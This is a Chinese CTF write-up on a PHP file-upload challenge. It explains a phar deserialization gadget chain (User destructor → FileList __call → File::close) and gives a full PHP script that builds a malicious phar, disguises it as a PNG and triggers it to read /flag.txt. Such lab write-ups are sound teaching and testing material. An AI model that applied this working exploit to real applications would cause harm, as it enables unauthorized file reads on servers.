 ```php
            $table .= '<tr>';
            foreach ($result as $func => $value) {
                $table .= '<td class="text-center">' . htmlentities($value) . '</td>';
            }
            $table .= '</tr>';
        }
        echo $table;
    }
}
?>
```
File类中的close方法会获取文件内容，如果能触发该方法，就有可能获取flag。

User类中存在close方法，并且该方法在对象销毁时执行。

同时FileList类中存在call魔术方法，并且类没有close方法。如果一个Filelist对象调用了close()方法，根据call方法的代码可以知道，文件的close方法会被执行，就可能拿到flag。

运行如下PHP文件，生成一个phar文件，更改后缀名为png进行上传。
```php
<?php

class User {
    public $db;
}

class File {
    public $filename;
}
class FileList {
    private $files;
    private $results;
    private $funcs;

    public function __construct() {
        $file = new File();
        $file->filename = '/flag.txt';
        $this->files = array($file);
        $this->results = array();
        $this->funcs = array();
    }
}

@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar

$phar->startBuffering();

$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

$o = new User();
$o->db = new FileList();

$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("exp.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```
运行时报错，**要将php.ini中的phar.readonly选项设置为Off，并将前面的；去掉，否则无法生成phar文件**
![](https://img-blog.csdnimg.cn/20200317124539592.png)
生成了phar.phar，改名为phar.png,上传并删除文件时抓包
![](https://img-blog.csdnimg.cn/20200317125805827.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
